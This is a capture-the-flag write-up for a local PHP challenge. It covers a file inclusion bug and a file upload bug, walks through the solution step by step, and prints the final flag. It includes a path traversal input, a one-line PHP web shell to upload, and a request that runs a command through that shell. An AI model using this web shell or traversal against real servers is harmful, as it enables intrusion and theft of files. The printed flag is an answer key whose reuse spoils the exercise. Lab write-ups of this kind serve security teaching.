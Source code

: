 # Writeup

Github Repo - https://github.com/kavyaharlalka/CtfFileUpload

Overview
The goal of this challenge is to use a PHP file inclusion vulnerability and a file upload exploit to obtain access to secret files on the server. A web application that enables users to upload files and see them on a website is the subject of the challenge. However, a PHP file inclusion attack can take advantage of the application's vulnerability to include and run any PHP code. The program also has a file upload capability that is open to file upload attacks, enabling attackers to upload malicious PHP files to the server. To complete the challenge, competitors must upload a PHP shell to the server and execute the shell using the PHP file inclusion vulnerability. The hidden directory, which houses the flag, may then be found by browsing the server's filesystem from that point.

Challenge 1: Exploit a vulnerability in the given PHP file inclusion functionality.
Challenge 2: Exploit a vulnerability in the given PHP file upload functionality.


Instructions on how to solve it :-
1.	Access localhost:8000
2.	Go to Challenge 1
3.	Search for “../../secret”
4.	Copy the flag you see (call it flag1)
5.	Go back to localhost:8000
6.	Go to Challenge 2
7.	Upload a php script (let’s say backdoor.php) with “<?php system($_GET['cmd']); ?>”
8.	Access localhost:8000/challenge2/uploads/backdoor.php?cmd=cat%20secret.php
9.	Check the network tab with the above request; you will find the flag in the response (lets call it flag2)
10.	Concatenate both flags and enclose them in `CTF_SDaT{}` to get the final flag.

Final Flag - CTF_SDaT{f1l3_inclu510n_vuln3r4b1l1ty_@nd_uPload_3xplo1t}